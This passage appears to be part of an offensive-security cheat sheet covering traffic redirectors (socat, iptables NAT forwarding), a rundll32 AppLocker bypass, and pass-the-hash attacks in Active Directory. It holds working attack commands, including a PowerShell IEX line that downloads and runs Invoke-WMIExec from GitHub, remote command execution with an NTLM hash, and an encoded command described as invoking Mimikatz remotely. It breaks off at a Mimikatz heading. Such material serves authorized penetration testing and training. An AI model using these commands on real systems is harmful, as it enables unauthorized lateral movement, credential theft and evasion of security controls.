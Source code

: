### TCP over HTTP

Check: https://sensepost.com/discover/tools/reGeorg/

### HTTP Redirectors

* socat

```
socat TCP4-LISTEN:80,fork TCP4:REMOTE-HOST-IP-ADDRESS:80
```

* iptables

```
iptables -I INPUT -p tcp -m tcp --dport 80 -j ACCEPT
iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination REMOTEADDR:80
iptables -t nat -A POSTROUTING -j MASQUERADE
iptables -I FORWARD -j ACCEPT
iptables -P FORWARD ACCEPT
sysctl net.ipv4.ip_forward=1
```

### Windows Socks proxy

Check: https://github.com/p3nt4/Invoke-SocksProxy

## Active Directory

### Bypass Applocker

* Rundll32

```powershell
rundll32.exe PowerShdll.dll,main
```

Check: https://github.com/p3nt4/PowerShdll

### Pass the hash

* Invoke a command Remotely

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Invoke-TheHash/master/Invoke-WMIExec.ps1')

 Invoke-WMIExec -Target SVHOST2  -Username Administrator -Hash 78560bbcf70110fbfb5add17b5dfd762 -Command "powershell whoami | out-file \\SVHOST2\C$\windows\thing.txt"
```
* Invoke Mimikatz Remotely

```powershell
Invoke-WMIExec -Target SVHOST2  -Username Administrator
-Hash 78560bbcf70110fbfb5add17b5dfd762 -Command "powershell -Enc SQBFA...AoA"
```
*  Pass The Hash with Mimikatz
